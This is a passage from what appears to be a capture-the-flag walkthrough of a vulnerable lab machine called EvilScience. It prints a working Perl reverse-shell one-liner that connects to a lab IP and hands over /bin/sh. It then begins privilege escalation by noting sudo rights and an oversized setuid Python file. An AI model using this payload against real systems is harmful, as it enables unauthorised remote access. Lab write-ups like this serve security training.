 ```perl
perl -e 'use Socket;$i="192.168.198.128";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

To avoid complications, it's best to `urlencode()` the above and then spawn a pseudo-tty for optimal output control.

![shell](/assets/images/posts/the-ether-evilscience-walkthrough/evilscience-9.png)

I have shell.

## Privilege Escalation

I notice that user `evilscience` is able to `sudo` as `root`.

![sudo](/assets/images/posts/the-ether-evilscience-walkthrough/evilscience-10.png)

There's also a file with the `setuid` and `setgid` bit turned on. Notice the file size on this guy? 11MB for a Python file? Something funky is going on here.

![xxxlogauditorxxx.py](/assets/images/posts/the-ether-evilscience-walkthrough/evilscience-11.png)
